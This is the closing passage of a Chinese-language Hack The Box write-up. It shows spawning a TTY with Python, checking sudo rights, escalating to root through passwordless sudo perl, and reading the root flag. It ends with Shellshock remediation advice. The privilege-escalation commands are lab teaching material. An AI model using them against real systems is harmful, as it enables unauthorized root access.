

我键入以下命令在目标系统上获得标准 shell

```
shell
```

我生了一个 TTY 贝壳

```
python3 -c "import pty; pty.spawn('/bin/bash/');"
```

我需要更改为根用户才能访问该文件夹。我使用命令

```
sudo -l
```

了解我可以在 localhost 上运行哪个命令。



我发现用户 Shelly 可以在没有密码的情况下以“root”身份执行 Perl 命令。我使用以下命令执行 Perl 权限提升

```
sudo perl -e 'exec "/bin/bash";'
```



我现在是 root 了！我可以导航到 ****根**** 文件夹。我找到了 root.txt 文件，并用

```
cat root.txt
```



恭喜你。你找到了两面旗。

## **补救**

*   将 Bash 升级到不会以特殊方式解释`() { :; };`的版本
*   修补您的服务器！

请随时评论、提问或与朋友分享:)

更多文章可以看 ********保持冷静黑盒子******** [这里](https://www.freecodecamp.org/news/search/?query=keep%20calm%20and%20hack%20the%20box)。

你可以在 Twitter 上关注我，也可以在 T2 的 LinkedIn 上关注我。

还有别忘了#****************GetSecure****************，#****************be secure****************&#

